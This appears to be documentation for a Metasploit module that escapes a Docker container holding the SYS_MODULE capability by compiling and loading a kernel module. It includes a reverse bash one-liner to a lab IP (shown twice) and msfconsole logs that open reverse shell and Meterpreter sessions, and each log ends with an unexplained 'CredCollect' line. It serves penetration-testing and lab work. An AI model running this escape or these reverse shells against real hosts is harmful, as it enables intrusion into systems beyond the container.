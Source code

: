 ## Vulnerable Application

This module performs a container escape onto the host as the daemon user. It
takes advantage of the SYS_MODULE capability. If that exists and the linux
headers are available to compile on the target, then we can escape onto the host.

### Creating A Testing Environment

- Get a VM that you want to test on (or your own machine)
- Install Docker
- Run a listener (can be anything but this example will make use of the msfconsole `cmd/unix/reverse_bash` payload)
```msf
msf6 > use payload/cmd/unix/reverse_bash
msf6 payload(cmd/unix/reverse_bash) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(cmd/unix/reverse_bash) > generate -f raw
bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
msf6 payload(cmd/unix/reverse_bash) > exploit -z
[*] Payload Handler Started as Job 0
msf6 payload(cmd/unix/reverse_bash) > 
[*] [2023.11.07-21:28:57] Started reverse TCP handler on 192.168.56.1:4444
```
- Create a privileged container (forwarding port 4444 in this example in order
to use a bind shell from the host. Container must be the same OS as host)
```bash
docker run --rm -it --cap-add SYS_MODULE ubuntu bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
```
- Inside your session, install the required packages to run. Package manager will differ to OS, for debian as an example
```bash
apt update && apt install -y gcc make kmod linux-headers-$(uname -r)
```

## Verification Steps

1. Start msfconsole
2. Get a session
3. Install required packages into session (line 30)
4. Run `use exploit/linux/local/docker_privileged_container_kernel_escape`
5. Run `set SESSION [session]`
6. Run `check`
7. Run `set PAYLOAD [payload]`
8. Run `exploit`

## Options

### KernelModuleName

The name that the kernel module will be called in the system. The default if no
name is set is "{rand(8)}"

### WritableContainerDir

A directory where we can write files inside the container (default is `/tmp/.{rand(4)}`).
This is needed to drop the payload into the container.

### ReloadKernelModule

Rebuilds and reloads kernel module if its already loaded in case of repeat runs.

## Scenarios

### Container Escape from debian linux with reverse bash

```msf
msf6 > sessions -i 1 -c "apt update && apt install -y gcc make kmod linux-headers-$(uname -r)"
[*] Running 'apt update && apt install -y gcc make kmod linux-headers-$(uname -r)' on shell session 1 (192.168.56.126)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 1 
session => 1
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:42:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:42:42] Creating files...
[*] [2023.11.07-21:42:43] Compiling the kernel module...
[+] [2023.11.07-21:42:43] Kernel module compiled successfully
[*] [2023.11.07-21:42:43] Loading kernel module...
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.126:60974) at 2023-11-07 21:42:50 -0500
[*] This is CredCollect, I have the conn!
```

### Container Escape from arch linux with meterpreter

```msf
msf6 > sessions -i 2 -c "pacman -Syy --noconfirm gcc glibc make linux-headers"
[*] Running 'pacman -Syy --noconfirm gcc glibc make linux-headers' on shell session 2 (192.168.56.106)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 2 
session => 2
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set lhost vboxnet0 
lhost => vboxnet0
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:48:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:48:41] Creating files...
[*] [2023.11.07-21:48:43] Compiling the kernel module...
[+] [2023.11.07-21:48:44] Kernel module compiled successfully
[*] [2023.11.07-21:48:44] Loading kernel module...
[*] [2023.11.07-21:48:44] Sending stage (3045380 bytes) to 192.168.56.106
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.106:50402) at 2023-11-07 21:48:45 -0500
[*] This is CredCollect, I have the conn!
[*] Session 4 created in the background.
```
